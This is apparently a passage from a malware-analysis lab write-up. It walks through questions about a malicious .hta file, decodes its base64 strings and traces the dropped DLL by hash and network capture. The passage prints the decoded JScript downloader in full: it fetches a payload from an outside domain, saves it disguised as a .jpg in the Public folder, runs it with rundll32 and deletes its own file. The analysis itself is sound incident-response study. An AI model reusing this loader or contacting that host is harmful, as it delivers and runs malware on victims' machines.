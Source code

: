 ## Q4. Based on the previous question, what is the DLL run method?
Open this .hta file, you will see the base64 string. We notice the string `aGVsbG8`, it split the base64 string into two parts.<br>
![](images/1.png)<br>
Decode the first part and reverse the string, you will receive
```vb
var dateIntegerR = new ActiveXObject("msxml2.xmlhttp");dateIntegerR.open("GET", "http://coursemcclurez.com/adda/T/5xBOnOkAQixWY7/JQNizzLtuT6BVV0xRecCKVVHAAR6PkgGrIPN/sose5?user=anRsIkfbv&time=0qobcg4DyUX11ZLF5yHrIevFn&page=1K2n8iJ&i9y9SwJu=yVaCtZ9s0gUfn&q=hj9xWh4I6PDdXOPDey&id=Vr4pf&user=mHMoD292T&search=uZVgg21LyVRFdD2FABGZvQlnkM90&q=Dwc1s67MbWC24TGoOjMXC", false);dateIntegerR.send();if(dateIntegerR.status == 200){try{var varLst = new ActiveXObject("adodb.stream");varLst.open;varLst.type = 1;varLst.write(dateIntegerR.responsebody);varLst.savetofile("c:\\users\\public\\collectionBoxConst.jpg", 2);varLst.close;}catch(e){}}
```
It will download a file from internet and save file to Public folder for all access.<br>
Decode the second string,
```vb
var trustReferenceConst = new ActiveXObject("wscript.shell");var bytesLStruct = new ActiveXObject("scripting.filesystemobject");trustReferenceConst.run("rundll32 c:\\users\\public\\collectionBoxConst.jpg,PluginInit");try{repoVObject = trustReferenceConst.CurrentDirectory + "\\collectionBoxConst.hta";bytesLStruct.deletefile(repoVObject);}catch(indexIndexNext){}
```
At here, we see the script call `rundll32` to call external function from the dll.<br>
**Answer:** "c:\windows\system32\rundll32.exe" c:\users\public\collectionboxconst.jpg,plugininit

## Q5. What is the image file dll installer sha256 hash from previous question?
Use `sha256sum` to calculate sha256 value.<br>
```
$ sha256sum collectionBoxConst.jpg 
51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441  collectionBoxConst.jpg
```
**Answer:** 51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441

## Q6. What are the IP address and its domain name hosted installer DLL?
From the first base64 string of previous question, we see the domain hosted the dll.<br>
Use `infection-traffice.pcap` to find IP address of the domain. At packet 6, you will see the request to this domain.<br>